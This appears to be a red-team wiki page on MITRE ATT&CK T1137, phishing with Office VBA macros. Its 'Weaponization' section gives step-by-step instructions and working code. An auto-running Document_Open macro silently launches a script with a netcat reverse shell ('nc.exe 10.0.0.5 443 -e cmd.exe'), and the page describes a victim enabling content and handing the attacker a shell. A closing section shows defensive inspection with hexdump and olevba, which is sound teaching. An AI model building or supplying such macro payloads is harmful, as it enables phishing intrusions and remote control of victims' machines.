 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code-tabs %}
{% code-tabs-item title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="C:\\tools\\shell.cmd" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This is how it should look roughly:

![](../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../.gitbook/assets/macros-filename.png)

{% file src="../../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../../.gitbook/assets/macro-victim.png)

...and enabling the content - which gives the attacker a reverse shell:

![](../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry and what happened after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a ZIP and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file can be renamed to **Doc3.zip** and simply unzipped like a regular archive. Doing so deflates the archive and reveals the files that make up the suspicious office file. Files include `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros:

![](../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through. This can sometimes give enough to determine if the document is suspicious. 

I ran `hexdump -C vbaProject.bin` which clearly revealed some fragmented keywords that should immediately raise your suspicion - keywords included: **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../.gitbook/assets/macros-olevba.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1137\",\"type\":\"link\",\"title\":\"Office Application Startup - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

